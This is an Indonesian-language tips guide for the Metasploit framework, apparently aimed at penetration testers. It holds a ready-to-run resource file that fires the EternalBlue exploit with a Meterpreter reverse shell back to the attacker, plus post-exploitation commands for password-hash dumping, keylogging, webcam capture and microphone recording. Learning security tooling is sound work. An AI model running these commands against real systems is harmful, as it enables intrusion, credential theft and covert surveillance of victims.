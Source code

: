 # Tips dan Trik Penggunaan Metasploit Efisien

## 1. Setup Awal yang Benar

Jalankan Metasploit dengan database aktif:

```
sudo systemctl start postgresql
msfdb init
msfconsole
```

Keuntungan database aktif:
- Menyimpan hasil pemindaian (`Nmap`, `Host`, `Service`).
- Menyimpan workspace dan logs.
- Integrasi dengan Armitage.

## 2. Gunakan Alias dan Tab Completion

- Gunakan `Tab` untuk melengkapi `command`, `module`, `payload`, `dsb`.
- Gunakan `?` atau `help` untuk melihat opsi.

  Contoh:

  ```
  use exploit/windows/smb/ms17_010_eternalblue
  show options
  ```

## 3. Simpan dan Muat Konfigurasi (resource file)

Buat file `auto.rc`:

```
nano auto.rc
```

Isi dengan:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.45
set RPORT 445
set LHOST 192.168.1.42
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set target 1
set verbose true
exploit
```

Jalankan Metaploit:

```
msfconsole -r auto.rc
```

Ini akan mengeksploitasi target secara otomatis tanpa harus kita setting secara manual satu persatu.

  
## 4. Gunakan search Secara Efisien

Cari berdasarkan `platform`, `CVE`, `tipe`, `dsb`:

```
search type:exploit platform:windows smb
search name:eternalblue
search cve:2017-0144
```

## 5. Gunakan setg untuk Pengaturan Global

```
setg LHOST 192.168.1.5
setg LPORT 4444
```

Berlaku untuk semua `exploit/payload` selanjutnya, hemat waktu konfigurasi.

## 6. Simpan dan Kelola Target dengan Workspace

```
workspace add pentest01
workspace pentest01
db_nmap -sV 192.168.1.0/24
hosts
services
```

Workspace membantu memisahkan proyek dan target secara terstruktur.

 ## 7. Gunakan exploit suggester

Jika kamu sudah mendapatkan sesi shell:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

## 8. Gunakan sessions dengan Cerdas

```
sessions       # daftar sesi
sessions -i 1  # masuk ke session 1
background     # keluarkan sesi ke background
```

## 9. Pasca-Eksploitasi Cepat

Setelah mendapatkan Meterpreter:

```
sysinfo
getuid
hashdump
shell
keyscan_start
keyscan_dump
webcam_snap
record_mic
```

## 10. Gunakan loot, notes, dan creds

Simpan dan kelola hasil:

```
loot
notes
creds
```

## 11. Integrasi dengan Script/Tool Lain
- Gunakan `Python` untuk otomatisasi via `msfrpc` (Metasploit RPC).
- Integrasi dengan `CrackMapExec`, `Empire`, atau `BloodHound`.

## Bonus Tips:
- Gunakan module `auxiliary/scanner/*` untuk scanning cepat.
- Gunakan module `gather` untuk pencurian informasi secara otomatis.
- Dokumentasikan semua sesi dan hasil eksploitasi untuk laporan.
